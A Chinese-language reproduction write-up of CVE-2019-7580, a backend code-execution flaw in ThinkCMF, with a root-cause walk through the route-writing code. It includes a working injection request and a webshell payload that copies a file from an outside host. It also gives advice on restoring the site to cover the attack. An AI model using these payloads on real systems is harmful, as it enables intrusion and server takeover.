










# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3141](https://www.zhihuifly.com/t/topic/3141)

# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close `parent_id=0&name=111&alias=1’%3D%3Earray(%22%22)%2Cphpinfo()%2C’2` 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行payload。下图以执行sleep(5)作为演示。





#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\data\conf\route.php 文件
网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\think\App::run()执行应用。


在App.php的run()函数139行，执行sef::exec();



通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。



通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从$this->request->param()函数中得到请求中的参数传递给$data。



然后通过$this->validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的"添加分类"操作。



在addCategory函数中，184行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，



其中$fullUrl和$url的值如截图所示。
继续跟，


在34行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的157行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：



#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测


这里先

```
include app/route.php 
```



然后，

```
include data/conf/route.php 
```


最终执行我们的payload：`phpinfo()`。



## 参考链接

> https://xz.aliyun.com/t/3997#toc-6